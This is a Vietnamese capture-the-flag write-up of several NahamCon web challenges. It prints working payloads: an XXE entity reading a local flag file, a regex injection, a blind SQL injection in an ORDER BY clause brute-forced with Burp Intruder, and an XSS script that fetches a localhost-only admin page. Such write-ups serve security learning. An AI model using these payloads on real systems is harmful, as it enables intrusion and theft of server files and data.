

# NahamCon

# Extravagant

Vào nghịch vài chức năng của web, ta nhận thấy web có chức năng upload file và đọc file `XML`.



Như vậy khả năng chall này sẽ có lỗi `XXE` (`.NET 101` flashback...)

Nhờ mô tả mà ta biết được flag ở `/var/www`.

Do chall được xếp hạng dễ và khá nhiều người solve được (thời điểm mình làm là đã hơn 600 solves), ta tự tin thử payload đơn giản để đọc file flag.

Tạo file `payload.xml` có nội dung

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>
    &test;
</root>
```

Do ta chưa biết tên file flag là gì nên để tạm `flag.txt`


Đọc file `payload.xml`


Game là dễ


<aside>
🚩 flag{639b72f2dd0017f454c44c3863c4e195}

</aside>

# **Jurassic Park**

Sau khi view source và test các chức năng của web những không thấy gì khả nghi, ta lại tìm đến chỗ quen thuộc


Ây zà, cùng xem `/ingen/` có gì nào 


<aside>
🚩 flag{c2145f65df7f5895822eb249e25028fa}

</aside>

# **Personnel**

Test tính năng trang web, ta thấy web có chức năng tìm tên nhân viên

Đọc source code được cung cấp, để ý đến đoạn

```python
flag = open("flag.txt").read()
users = open("users.txt").read()

users += flag
```

và

```python
results = re.findall(r"[A-Z][a-z]*?" + name + r"[a-z]*?\n", users, setting)
```

Như vậy, server sẽ tìm tên nhân viên bằng regex với biến `users` (biến này bao gồm cả users lẫn flag).

Nhận thấy nếu để regex như trên, ta không thể làm nó match flag được. Ném lên [regex101.com](https://regex101.com/) để thử.


Nhận thấy `name` và `setting` do người dùng nhập vào → ta hoàn toàn có thể kiểm soát regex!

Regex trong source code sẽ tìm xâu có ký tự đầu là chữ in hoa, các ký tự sau là chữ thường và kết thúc bằng kí tự xuống dòng. Trong khi đó flag có dạng `flag{chuỗi-kí-tự-gồm-chữ-và-số}`, do đó ta sẽ cần

1. Thêm regex `{.*}` để match được dấu `{}` và số
2. Để `setting` là `2`  (không phân biệt chữ hoa / chữ thường) để match ký tự đầu tiền của flag.
    
    
    

Với mấy cái vừa sửa, ta đã match được flag


Gửi lên server để kiểm chứng nào


<aside>
🚩 flag{f0e659b45b507d8633065bbd2832c627}

</aside>

# Flask Metal Alchemist

Ngó qua website, có vẻ như web cho ta tìm nguyên tố hóa học theo tên và sắp xếp chúng theo các cột


Đọc source code, ta thấy đoạn

```python
if order is None:
    metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
else:
    metals = Metal.query.filter(
        Metal.name.like("%{}%".format(search))
    ).order_by(text(order))
```

Sẽ thực hiện query SQL → khả năng cao bài này khai thác SQLi (lỗi mà bên công ty bảo mật B... à mà thôi 🤡) 

Dựng server từ source code được cung cấp. Thử bấm bừa `order=abc` ta thấy bị code 500 (do không có cột nào tên là `abc`). Đọc log được query mà server sử dụng.


Như vậy, param `search` không thể (hoặc rất khó) bị khai thác. Nhưng phần `ORDER BY` lại là raw query sử dụng param `order` do ta kiểm soát.

Sau một hồi thử và sai và thử và sai, mình craft được payload cho param`order`như sau , trong đó `§pos§` và `§char§` là 2 vị trí mà ta sẽ sử dụng để brute-force ký tự trong flag

```sql
(SELECT CASE
           WHEN (SELECT HEX(SUBSTR(flag, §pos§, 1)) FROM flag) = HEX('§char§')
               THEN atomic_number
           ELSE name
           END)
```

Gộp lại với query mà server sử dụng, ta có

```sql
SELECT metals.atomic_number AS metals_atomic_number, metals.symbol AS metals_symbol, metals.name AS metals_name
FROM metals
WHERE metals.name LIKE ?
ORDER BY (SELECT CASE
                     WHEN (SELECT HEX(SUBSTR(flag, §pos§, 1)) FROM flag) = HEX('§char§')
                         THEN atomic_number
                     ELSE name
                     END)
```

Query trên sẽ tìm những nguyên tố có tên thỏa mãn và sort nó theo cục `(SELECT ... END)`

Cục `(SELECT ... END)` trên sẽ trả về cột `atomic_number` nếu mã hex của kí tự thứ `§pos§` trong flag là `§char§`, nếu không thì trả về cột `name`.

Do đó, nếu giữ nguyên giá trị của param `search` và thay đổi gia trị của `§pos§` và `§char§`, ta có thể mò được từng ký tự trong flag bằng cách xem sự thay đổi của thứ tự các nguyên tố.

Giả sử `§pos§` = `1`, `§char§` = `f`, ta được danh sách sort theo cột `atomic_number` nếu ký tự thứ `1` là `f`.


Thử `§pos§` = `1`, `§char§` = `g`, ta được danh sách sort theo cột `name` → ký tự thứ `1` không phải `g`


Bắn vào Intruder, để payload set 1 (`§pos§`) là số từ 1-30 (số lượng ký tự trong flag) và payload set 2 (`§char§`) là các ký tự `[a-z{}]` (phần mô tả có nói định dạng flag chall này).

```
search=a&order=(SELECT+CASE+WHEN+(SELECT+HEX(SUBSTR(flag,+§pos§,+1))+FROM+flag)+%3d+HEX('§char§')+THEN+atomic_number+ELSE+name+END)
```


Ngoài ra ta cũng cần cài đặt thêm grep ở trong option để dễ dàng lọc ra những response được sort theo cột `atomic_number` (để ý những response này có nguyên tố Magnesium ở đầu)


Bắt đầu attack. Đợi một lúc rồi sort theo số thứ tự + phần grep và voilà, flag đã hiện ngay trước mặt ta.


<aside>
🚩 flag{order_by_blind}

</aside>

# **Hacker Ts**

Trang web cho ta in chữ lên áo


Ngoài ra , website còn có trang `/admin` nhưng chỉ có thể truy cập từ `localhost:5000` 


Như vậy mục tiêu cuối cùng của chall này sẽ là khai thác SSRF để đọc nội dung trang `/admin`

Thử nhập `<script>document.write(navigator.appVersion)</script>`, ta nhận thấy website dính lỗi XSS → từ lỗi XSS, ta có thể đọc trang admin


Sau một hồi dùng `iframe`  và dùng javascript để chèn page `/admin` vào áo nhưng toàn bị lỗi parser, mình nhận ra có thể thử dùng regex để trích flag trong trang `/admin` thay vì in cả trang ra.

```html
<script>
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", "http://localhost:5000/admin", false);
    xmlHttp.send(null);
    var a = xmlHttp.responseText;
    var myRegexp = /(flag{.*})/;
    var match = myRegexp.exec(a);
    document.write(match[1]);
</script>
```

Khá may là flag nằm trong trang `/admin` luôn.


<aside>
🚩 flag{461e2452088eb397b6138a5934af6231}

</aside>